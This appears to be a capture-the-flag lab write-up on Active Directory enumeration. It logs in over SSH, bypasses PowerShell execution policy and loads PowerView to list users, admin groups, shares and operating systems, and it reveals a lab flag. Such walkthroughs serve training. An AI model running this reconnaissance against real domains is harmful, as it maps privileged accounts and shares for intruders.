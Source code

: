 Login with SSH using the given credentials: `ssh -l Administrator@CONTROLLER 10.10.225.31`

```ps1
powershell -ep bypass
. .\Downloads\PowerView.ps1
Get-NetUser | select cn
Get-NetGroup -GroupName *admin*

```

??? output "Get-NetUser"
    ```txt
    cn
    --
    Administrator
    Guest
    krbtgt
    Machine-1
    Admin2
    Machine-2
    SQL Service
    POST{P0W3RV13W_FTW}
    sshd
    ```

??? output "Get-NetGroup"
    ```txt
    Administrators
    Hyper-V Administrators
    Storage Replica Administrators
    Schema Admins
    Enterprise Admins
    Domain Admins
    Key Admins
    Enterprise Key Admins
    DnsAdmins
    ```

What is the shared folder that is not set by default? `Invoke-ShareFinder`

??? output "Get-NetGroup"
    ```txt
    \\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin
    \\Domain-Controller.CONTROLLER.local\C$         - Default share
    \\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
    \\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
    \\Domain-Controller.CONTROLLER.local\Share      -
    \\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
    ```

What operating system is running inside of the network besides Windows Server 2019 `Get-NetComputer -fulldata | select operatingsystem`

??? output "Get-NetGroup"
    ```txt
    operatingsystem
    ---------------
    Windows Server 2019 Standard
    Windows 10 Enterprise Evaluation
    Windows 10 Enterprise Evaluation
    ```
